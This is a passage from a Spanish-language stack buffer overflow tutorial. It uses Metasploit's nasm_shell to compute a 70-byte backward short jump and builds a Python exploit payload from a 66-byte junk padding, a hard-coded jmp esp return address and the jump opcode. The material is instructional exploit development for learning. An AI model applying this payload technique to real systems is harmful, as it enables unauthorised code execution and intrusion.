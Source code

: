 ![paste](./images/84.jpeg)

Existe una forma y es restando, y que debemos restar: 70, ¿Por qué 70?, recuerda que nuestro junk es de 66 bytes mas 4 bytes del EIP son 70 bytes 

para saber que instrucción poner ocuparemos la consola de nasm de metasploit 

```bash
❯ /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp $-70
00000000  EBB8              jmp short 0xffffffba
```

Agregaremos esta instrucción en nuestro script de python  

```python 
offset = 66
junk = b"A"*offset
jmp_esp = p32(0x7190239F)
jmp_esp70 = b"\xEB\xB8"                     #jmp $-70
payload = junk + jmp_esp + jmp_esp70
```

y otra vez volvemos a ejecutar y ahora veremos esto:

Primero damos el salto el jmp_esp 

```
jmp_esp = p32(0x7190239F)
```

![paste](./images/85.jpeg)
